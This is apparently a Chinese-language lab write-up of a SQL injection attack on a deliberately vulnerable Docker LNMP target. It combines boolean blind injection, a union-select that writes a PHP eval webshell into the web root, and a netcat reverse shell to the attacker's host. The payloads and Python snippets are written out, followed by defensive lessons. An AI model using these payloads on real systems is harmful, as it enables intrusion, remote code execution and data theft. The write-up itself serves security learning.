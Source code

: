 # <center>基于SQL布尔盲注与联合查询的WEB渗透</center>

### 0x00 靶机环境

* 基于`LNMP`框架，通过`GET`方式提交参数`id`

* 靶机源码：`./target`

* 渗透程序源码：`./poc/sqli-getshell.py`

* 靶机编译方式：
  
  ```bash
  cd ./target
  docker-compose up -d
  sudo chmod 777 www -R
  # 给 www 写权限，便于后续webshell写入
  ```

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbjsuiebj30mk0b3ta1.jpg)

* 在手动测试时没有检测到`WAF`，`union select`正常执行，可以联合查询注入
* 查询错误不回显错误信息，仅返回`WRONG`，无法进行报错注入，可以布尔盲注
* `load_file("/etc/passwd")`可执行，`into outfile('/tmp/tmp')`可执行，有机会写入`WEBSHELL`
* 注入`version()`命令，查询到`MySQL`的版本较低，植入的`WEBSHELL`可能具有`644`及以上的权限，外部用户可读

### 0x02 靶机源码分析

* `./mysql/init/privileges.sql`：授予所有用户`file`权限
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbkltmckj30gk03iwfy.jpg)

* `./mysql/my.cnf`：关闭`MySql`文件读写控制![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbl180yxj30i605qwgh.jpg)`./php/Dockerfile`：`php`容器中安装了`netcat`，可以执行`nc`命令反弹`shell`
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hblq8hk8j30la02dt9p.jpg)

* `./docker-compose.yml`：`php`与`mysql`容器同时映射了`/var/www/html`，可以直接将`WEBSHELL`写入站点根目录；同时，`MySQL`版本为5，导出的`WEBSHELL`外部用户可读，即`php`解释器可解释
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbm7f5opj30la0h544v.jpg)

### 0x03 渗透脚本编写

* 源码：`./poc/sqli-getshell.py`

* 整个攻击脚本使用`Python3`编写，主要利用`requests`库与服务器交互

* 由于涉及`os.system('nc xxx')`等命令，脚本需要在`Linux`环境下运行

#### A. 布尔盲注获取数据

* 核心`payload`：`and`拼接注入的命令，利用`ascii()`与`substr()`等函数逐字符猜测，循环测试得到所需信息
  
  ```sql
  ?id=1 and ascii(substr(database(),{index},{index}))<{x}--+
  ```

#### B. 联合查询写入木马

* 核心`payload`：通过`union select`，将一句话木马写入后端服务器
  
  ```sql
  ?id=2988 union select 1,2, \"<?php eval(@$_POST['xiabee']);?>\" into outfile '/var/www/html/{}'
  ```

* 木马随机命名，避免重复执行时因文件名冲突而异常终止：
  
  ```python
  filename = rand_str(6)+'.php'
  ```

#### C. PYTHON 开启本地NC

* 核心`payload`：打开`nc`监听，等待受害者机器上线
  
  ```python
  os.system('nc -nvlp {port}'.format(xport))
  ```

#### D. PHP 命令反弹SHELL

* 核心`payload`：由上述代码可知，变量`$xiabee`可以实现任意命令执行，这里通过`python`的`requests`发送`php`的`system()`命令，实现`nc`，连接攻击者主机：
  
  ```python
  payload = "system(\'nc -v {ip_of_attacker} {port} -e /bin/bash\');"
  data = {'xiabee': payload}
  r = requests.post(url = new_url, data = data)
  ```

#### E. FORK() 开启子进程

* 由于需要本地开启`nc`，会导致进程阻塞，无法发送`payload`，故通过`os.fork()`开启子进程，通过两个进程分别执行`nc`和`send payload`

* 需要确保`nc`开启后再发送`payload`，故在`send payload`进程中`sleep`一段时间 
  
  ```python
  pid = os.fork()
  if pid != 0:
      os.system('nc -nvlp {}'.format(xport))
  else:
      time.sleep(8)
      # sleep until nc process already started
      data = {'xiabee': payload}
      r = requests.post(url = new_url, data = data)
  ```

#### F. 输出优化

* 保留并输出部分布尔盲注过程，减少程序停顿时间，便于攻击者观察程序是否正在运行

* 添加`[+][-]`等标记，便于观察程序`CLI`输出
  
  ![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbmki1shj30lb0ayag8.jpg)

### 0x04 渗透结果

* 查询整个`security`库，包含`user, flag`等表单，获得核心表单`flag`表的`flag`字段：`FLAG{W2LC0M2_T@_THE_CTF_W021D!}`

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbmt5582j30ly0e0tig.jpg)

* 写入`WEBSHELL`并解析，反弹`shell`成功

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbn0bd63j30m70cjagy.jpg)

* `WEBSHELL`命令执行成功，拿下容器控制权：

![image.png](https://tva1.sinaimg.cn/large/0084b03xly1h1hbn8zg5aj30lq0nmgzr.jpg)

### 0x05 渗透心得

* 本次`SQL`注入原理比较简单，仅通过布尔盲注和联合查询进行各项操作，但环境的搭建远比我想象的复杂的多......最开始直接运行去年编写的[`LNMP`环境](https://github.com/xiabee/LNMP-Docker)，发现`libssl`库更新，导致`php`容器无法运行......最后被迫在`Dockerfile`中写入手动安装旧版本`libssl`的命令
* 在注入的实践过程中也遇到了许多问题：比如`WEBSHELL`写入无回显，重复执行导致命名冲突；`nc`阻塞进程，导致`payload`无法发送等......后面联想到操作系统课程中学到的进程通信等知识，意识到可以通过创建子进程来处理阻塞的问题；而随机化文件名是迫不得已，虽然巧妙的避开的重名的风险，但是每次执行都产生新的`WEBSHELL`，实战中会增加被受害者发现的可能性，实验中也增加了删除废弃`WEBSHELL`的工作量......
* 有输入的地方就有攻击，有服务的地方就有攻击面......自己编写服务程序时需要多加注意，努力减小攻击面

### 0x06 渗透总结

* 容器隔离具有局限性，不同容器拥有相同的目录映射时，会增大攻击面，可能会导致容器间的攻击
* 外部用户拥有站点根目录的写入权限时，给`getshell`创造了可能
* `Mysql`服务开启任意文件读写后需及时关闭，否则极大增加攻击面